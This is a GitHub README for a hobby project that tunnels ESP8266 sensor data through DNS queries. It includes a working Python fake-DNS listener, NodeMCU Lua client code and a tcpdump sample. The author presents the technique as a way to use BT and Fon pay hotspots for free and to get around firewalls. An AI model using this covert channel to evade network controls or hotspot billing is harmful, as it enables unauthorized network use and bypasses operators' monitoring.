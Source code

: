 # esp8266-dns

Featured on [Hackaday](https://hackaday.com/2015/07/01/dns-tunneling-with-an-esp8266/)  

### BTwifi & fon (and other hotspots) as a free transport of IOT device data using dns tunneling
_2015-06-25_

The idea was inspired by a set of events in which breaking free from being firewalled and a desperate need to gain Internet access. This is when I remembered from years ago someone came up with a way to bypass the login screens on pay as you go mobile Internet sticks. I began to research the methods used and eventually ended up coming across a package in the Debian repo called Iodine, created by Kyro(kyro.se). This program allows you to create an ipv4 over DNS tunnel. So when I got my first 2 ESP8266's it seemed obvious what should happen next with the two technologies.

The result is being able to send data to a server using dns requests to bypass any pay for hotspots, or bypass a firewall. One company to point out who has 5 million+ hotspots UK wide is BT, so there are no shortages for places to potentially send data from.

It works on the simple basis of sending a dns request to a fake DNS server which in my case is a simple python program with an NS record pointing to it. The dns request is made up of many parts, but the part we are interested in is the DNS question, this is where we want to throw our data.

**So how does it work?**

First you need to setup some records for this to work.

		server < sub.domain.com

then a nameserver record that points to the sub domain:

		sub.example.com > ns.example.com

Ok so now we have somewhere for our requests to go, but now we need a fake dns server to pick the requests up, so a simple python server to capture and parse the requests into useful data for us to use.

### dns udp server
		import socket
		from dnslib import DNSRecord

		def parsed_data(data):
		#the format im using for this is: "zz1.data.xx1.ns.example.com"
		    parsed_data = data[data.index("zz1."):data.index(".xx1")].replace("zz1.","").replace(".xx1","")
		    return parsed_data
		server = ""
		udoser = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		udoser.bind((server, 53))
		i=0
		while i == 0:
		    recv_data = udoser.recv(2048)
		    if recv_data == None:
			break
		    d = DNSRecord.parse(recv_data) #unpack the data
		    print parsed_data(str(d)) #parse and print data</pre>

		
On to the ESP8266, i installed NodeMCU because it has a lot of useful features and one of them is a simple function to do DNS requests so this saves you a ton of programming. So im using the DNS function as a quick and dirty example.

		sk=net.createConnection(net.UDP, 0)
		ens = “zz1.”
		ene = “.xx1.”
		data = "hello"
		server_address = ".ns.example.com"
		sensor_data = ens .. data .. ene .. server_address
		sk:dns(sensor_data,function(conn,ip) end)
		sk = nil</pre>

Once sent it should look like below if your doing a tcpdump of it.

		18:32:36.527658 IP (tos 0x0, ttl 53, id 0, offset 0, flags [DF], proto UDP (17), length 60)
		xx.xx.xx.xx.37254 &gt; xx.xx.xx.xxx.53: [udp sum ok] 27146 A? zz1.data.xx1.ns.example.com. (32)

When we make the request it will be sent to ns.example.com because other DNS servers wont have a record of it, once we get it we can parse out the data and use it how we like, thats all there is to it.

We place zz1 and xx1 as markers for the parser to separate out the data from the request easily, after this its up to you to choose what you do with the data, but this should open up a lot more possibilities for where you place your esp.

__This is a proof of concept and is only for educational purposes!__
